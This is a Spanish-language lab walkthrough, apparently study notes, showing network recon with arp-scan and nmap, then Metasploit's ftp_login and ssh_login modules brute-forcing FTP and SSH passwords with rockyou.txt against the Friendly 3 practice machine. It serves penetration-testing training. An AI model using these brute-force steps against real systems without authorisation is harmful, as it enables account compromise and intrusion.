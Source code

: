 # Ataques de Fuerza Bruta con Metasploit

- Maquinas que vamos a usas **Kali Linux** y  **Friendly 3**.

Vamos a ver como utilizar Metasploit para hacer ataques de fuerza bruta contra el protocolo SSH como contra FTP.

Vamos a hacer arc-scan para identificar el maquina victima en nuestra red.

```bash
sudo arp-scan -I eth0 --localnet
```

![image.png](./imagenes/image%2080.png)

```bash
nmap -p- -sS -sV -sC -min-rate 5000 -n -vvv -Pn 10.0.3.8
```

![image.png](./imagenes/image%2081.png)

- Vamos a empezar por el puerto 21 que corre el protocolo FTP sabiendo el nombre de usuario.
    - Lanzamos el Metasploit y hacemos la siguiente búsqueda.
        
        `search ftp_login`
        
        ![image.png](./imagenes/image%2082.png)
        
        Este modulo sirve para autentificarnos en FTP pero también nos permite hace fuerza bruta.
        
    - Usamos el Modulo
        
        `use 0`
        
        ![image.png](./imagenes/image%2083.png)
        
        También podríamos hacer un use copiando el nombre del modulo.
        
        `use auxiliary/scanner/ftp/ftp_login`
        
        ![image.png](./imagenes/image%2084.png)
        
    - Miramos las opciones
        
        `show options`
        
        ![image.png](./imagenes/image%2085.png)
        
        Solo vamos a configurar dos opciones:
        
        - **PASS_FILE**  que es el diccionario de contraseñas
        - **USERNAME** es el nombre de usuario que conocemos
        - **RHOST** es la IP de la maquina opjetivo
        
    - Vamos a cargar el diccionario **rockyou.txt**
        
        `set PASS_FILE /usr/share/wordlists/rockyou.txt`
        
        `show options`
        
        ![image.png](./imagenes/image%2086.png)
        

- Introducimos el nombre del usuario que ya conocemos.
    
    `set USERNAME juan`
    
    `set RHOST 10.0.3.8`
    
    `show options`
    
    ![image.png](./imagenes/image%2087.png)
    

- Lanzamos el ataque
    
    `run`
    
    ![image.png](./imagenes/image%2088.png)
    

- Vamos a  por el puerto 22 que corre el protocolo SSH sabiendo el nombre de usuario.
    - hacemos la siguiente búsqueda
        
        `search ssh_login`
        
        ![image.png](./imagenes/image%2089.png)
        
    
    - Utilizaremos el primero
        
        `use 0`
        
        `show options`
        
        ![image.png](./imagenes/image%2090.png)
        
    - Seria todo idéntico a lo que hemos hecho con FTP
        
        `set USERNAME juan`
        
        `set PASS_FILE /usr/share/wordlists/rockyou.txt`
        
        `set RHOST 10.0.3.8`
        
        `show options`
        
        ![image.png](./imagenes/image%2091.png)
        

- Ejecutamos el ataque
    
    `run`
    
    ![image.png](./imagenes/image%2092.png)
    
- Lo probamos. abrimos un terminal nuevo.
    
    ```bash
    ssh [juan@10.0.3.8](./imagenes/mailto:juan@10.0.3.8)
    ```
    
    ![image.png](./imagenes/image%2093.png)
    

**NOTA: apara hacer ataques de fuerza bruta Hydra es mucho mas rápido.**